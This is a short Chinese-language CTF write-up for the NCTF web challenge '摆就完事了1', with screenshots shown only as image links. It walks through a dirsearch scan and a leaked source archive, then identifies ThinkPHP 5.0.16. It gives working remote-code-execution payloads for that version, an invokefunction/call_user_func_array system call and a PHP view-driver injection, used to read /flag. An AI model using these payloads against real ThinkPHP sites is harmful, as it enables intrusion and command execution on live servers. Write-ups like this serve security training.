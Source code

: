 NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden

![web-1.1](\img\web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](\img\web-1.2.png)

发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](\img\web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](\img\web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,

尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](\img\web-1.5.png)

查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](\img\web-1.6.png)

![web-1.7](\img\web-1.7.png)
